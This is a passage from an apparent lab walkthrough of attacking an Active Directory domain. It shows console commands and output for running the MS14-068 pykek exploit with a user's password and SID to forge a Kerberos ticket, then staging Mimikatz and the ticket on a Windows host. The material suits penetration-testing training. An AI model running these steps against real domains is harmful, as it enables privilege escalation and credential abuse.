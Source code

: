 ```console
root@kali:~/gds/pykek# chmod +x ms14-068.py 
root@kali:~/gds/pykek# ./ms14-068.py -u e.lindsey@gds-office.lab -p Lindsey123 -s S-1-5-21-421115581-889488229-2938181853-1131 -d 192.168.0.2
  [+] Building AS-REQ for 192.168.0.2... Done!
  [+] Sending AS-REQ to 192.168.0.2... Done!
  [+] Receiving AS-REP from 192.168.0.2... Done!
  [+] Parsing AS-REP from 192.168.0.2... Done!
  [+] Building TGS-REQ for 192.168.0.2... Done!
  [+] Sending TGS-REQ to 192.168.0.2... Done!
  [+] Receiving TGS-REP from 192.168.0.2... Done!
  [+] Parsing TGS-REP from 192.168.0.2... Done!
  [+] Creating ccache file 'TGT_e.lindsey@gds-office.lab.ccache'... Done!
root@kali:~/gds/pykek# ls
kek  ms14-068.py  pyasn1  README.md  TGT_e.lindsey@gds-office.lab.ccache
```

After successfully running the exploit, you should see that a TGT was created for e.lindsey.

Now, for us to successfully utilize this TGT, we will need to use [Mimikatz](https://github.com/gentilkiwi/mimikatz).

So let's copy over the x64 version of Mimikatz from our Kali machine, along with the TGT to our mounted share on the WIN-TERM machine.

```console
root@kali:~/gds/pykek# cp TGT_e.lindsey@gds-office.lab.ccache /root/gds
root@kali:~/gds/pykek# cd ..
root@kali:~/gds# cp -r /usr/share/mimikatz/x64/ /root/gds/
root@kali:~/gds# cp TGT_e.lindsey@gds-office.lab.ccache x64/
root@kali:~/gds# cd x64/
root@kali:~/gds/x64# ls
mimidrv.sys  mimikatz.exe  mimilib.dll  TGT_e.lindsey@gds-office.lab.ccache
```

Once that's completed, let’s return back to the WIN-TERM machine and see if everything is there.
